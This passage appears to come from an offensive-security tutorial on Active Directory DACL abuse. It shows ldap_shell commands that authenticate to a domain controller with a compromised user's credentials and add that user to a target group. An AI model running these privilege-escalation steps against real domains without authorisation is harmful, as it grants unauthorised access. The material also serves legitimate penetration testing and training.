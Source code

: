 ![dacl-group-query](assets\images\dacl-gw-on-group\dacls-gw-group-checking-group-membership-has-member.png)


## Method 2 - Add Group Member Using Ldap_shell

**Ldap_shell** is a **fork of Impacket** that provides an **interactive shell** for **Active Directory enumeration** and **manipulation** via **LDAP/LDAPS protocols**.

**Ldap_Shell Github:**
* https://github.com/PShlyundin/ldap_shell

### Authenticate to DC Using Ldap_shell

Run **ldap_shell** and **authenticate** to the domain controller.
```bash
ldap_shell 'domain/CompromisedUserName:Password' -dc-ip DC_IP
```
![dacl-ldapshell](assets\images\dacl-gw-on-group\dacl-ldap_shell1.png)

### Add User to Group Using Ldap_shell

Run the **add_user_to_group** command with the appropriate parameters. 
```bash
add_user_to_group user targetgroup
```
![dacl-ldapshell](assets\images\dacl-gw-on-group\dacl-ldap_shell2.png)

### Verify Group Membership Using Ldap_shell

We can **verify** our user is now a **group member** by using the ldap_shell **get_group_users** command.

**List Group Memberships Using Ldap_shell Command**
```bash
get_group_users TestingNestingAdministratorsGroup
```
